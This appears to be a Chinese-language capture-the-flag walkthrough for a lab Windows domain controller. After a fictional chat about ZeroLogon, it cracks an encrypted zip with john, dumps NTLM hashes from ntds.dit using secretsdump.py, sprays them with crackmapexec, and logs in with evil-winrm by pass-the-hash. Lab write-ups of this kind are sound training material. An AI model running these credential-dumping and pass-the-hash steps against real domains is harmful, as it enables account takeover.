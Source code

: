     sbradley>嘿管理员，我们的机器有新披露的Windows Server 2019漏洞。
    管理员>什么漏洞？？
    sbradley>新的CVE-2020-1472称为ZeroLogon发布了一个新的PoC。
    管理员>我已经给你最后的警告了。如果你在这个域控制器上利用这个，就像你之前在我们旧的 Ubuntu 服务器上用脏牛做的那样，我发誓我会杀死你的 WinRM-Access。
    斯布拉德利>嘿，你不会相信我所看到的。
    管理员>现在，不要说你运行了漏洞利用。
    sbradley>是的，漏洞利用效果很好，它不需要凭据。只需为其提供IP和域名，即可将管理员通行证重置为空哈希。
    斯布拉德利>我还使用了一些工具来提取NTDS。dit和SYSTEM.hive并将其转移到我的盒子中。我喜欢在这些文件上运行 secretsdump.py 并转储哈希。
    管理员>我感觉我的身体里有一个新的cron被释放出来，叫做心脏病发作，它将在下一分钟内执行。
    管理员>但是，在我死之前，我会杀死你的WinRM访问权限......
    sbradley>我已经制作了一个包含ntds.dit和SYSTEM.hive的加密zip，并将zip上传到垃圾共享中。
    斯布拉德利>嘿管理员你在那里吗...
    斯布拉德利>管理员.....

通过这段对话我们得知，另一个zip文件里应该有ntds.dit和system文件，但它是加密的

我们通过zip2john转成hash

    zip2john ./experiment_gone_wrong.zip > ./hash

使用john爆破：

    john --wordlist=/usr/share/wordlists/rockyou.txt ./hash

成功得到密码：

    elec********etismo (experiment_gone_wrong.zip)

将文件提取，system文件包含我们所需的密钥，我们使用secretsdump.py提取ntlm hash并保存到文件：

    python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -system ./system.hive -ntds ./ntds.dit LOCAL > ./test2.txt

由于没有xx用户的ntlm hash，我们将再次尝试密码喷洒，我们先使用grep将NT hash提取：

    grep -E -o ":[a-zA-Z0-9]+::" ./test2.txt > ./test3.txt

    sed -i "s/://g" ./test3.txt

我们将得到干净的NT hash

使用NT hash再次尝试密码喷洒：

    crackmapexec smb 10.10.9.255 -u lvetrova -H ./test3.txt

靶机老是崩

很快得到结果：

    SMB         10.10.9.255     445    HAVEN-DC         [+] raz0rblack.thm\lvetrova:f220d**************40ee16c431d

使用evil-winrm登录：

    evil-winrm -i 10.10.16.62 -u lvetrova -H f220d398**********f40ee16c431d

在用户目录下：

    $cred = Import-CliXml -Path lvetrova.xml
    $cred.GetNetworkCredential().Password
